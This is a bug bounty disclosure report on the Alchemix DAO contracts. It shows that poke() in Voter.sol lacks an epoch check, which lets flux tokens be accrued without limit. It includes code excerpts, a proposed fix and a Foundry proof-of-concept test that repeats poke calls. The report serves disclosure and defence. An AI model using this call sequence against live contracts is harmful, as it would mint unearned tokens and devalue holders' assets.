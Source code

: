 
# Lack of Access control in poke() function allows  in unlimited minting of flux token

Submitted on May 17th 2024 at 17:45:04 UTC by @hulkvision for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31375

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- A user can mint unlimited flux token breaking the invariant `A user should never be able to claim more rewards than they have earned`

## Description
## Brief/Intro
Lack of Access control in `poke()` function allows unlimited accrual of flux token thus breaking assumed invariants set by the team. 

## Vulnerability Details
In `Voter.sol` users can perform action like vote, reset or poke , when these actions are performed an external call to `FluxToken.sol` `accrueFlux` function is called which accrue unclaimed flux for a given veALCX . While `vote` and `reset` function had modifier called `onlyNewEpoch`  which prevented calling `accrueFlux` function multiple times in an epoch. 
`poke` function was also calling `accrueFlux` function but in this function no access control modifier `onlyNewEpoch` was  used which allowed this function to be called multiple time in an epoch.


In `Voter.sol`
```solidity
function poke(uint256 _tokenId) public {
    //...//
        _vote(_tokenId, _poolVote, _weights, _boost); //internal _vote is called 
    }
function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
      //...
        IFluxToken(FLUX).accrueFlux(_tokenId);  // flux is accrued here
        uint256 totalPower = (IVotingEscrow(veALCX).balanceOfToken(_tokenId) + _boost);
}
```

## Impact Details
* This vulnerability is breaking a  invariant set by the team , as a user can accrue unlimited flux, they can use the accrued  flux to boost their voting power each epoch thus getting more voting power than they should have.
> A user should never be able to vote with more power than they have 
* A user  can mint unlimited flux token and can unlock their escrowed position at any time they want even before then are supposed to unlock or can sell those flux token in the marketplace
* Due to unlimited supply of flux token the value of flux token will drop significantly.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195-211
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L423

## Possible fix
```diff
+ bool public hasPoked; // create a state variable
function poke(uint256 _tokenId) public {
+      hasPoked = true;
        uint256 _boost = 0;

        //...//

        _vote(_tokenId, _poolVote, _weights, _boost);
+      hasPoked = false;
    }
function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
        //.../
+        if (!hasPoked) { // when poke is called flux accrual will not happen.
+           IFluxToken(FLUX).accrueFlux(_tokenId); 
+        }
        //...//
}
```



## Proof of Concept
* Add this function to `src/test/Voting.t.sol` and run the test 
`forge test --mt testPocAccrueFluxMultipleTimes  --rpc-url $RPC_URL -vvvv`
```
function testPocAccrueFluxMultipleTimes() public {
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, true);
        address[] memory pools = new address[](1);
        pools[0] = alETHPool;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        hevm.startPrank(admin);
        voter.vote(tokenId, pools, weights, 0);
        voter.poke(tokenId); // 1st time
        console.log("unclaimed flux balance",flux.getUnclaimedFlux(tokenId));
        voter.poke(tokenId); // 2nd time
        uint256 unclaimedFlux_1 = flux.getUnclaimedFlux(tokenId);
        voter.poke(tokenId); // 3rd time
        uint256 unclaimedFlux_2 = flux.getUnclaimedFlux(tokenId);
        console.log("increased flux balance",flux.getUnclaimedFlux(tokenId));
        assertGt(unclaimedFlux_2,unclaimedFlux_1);
    }
```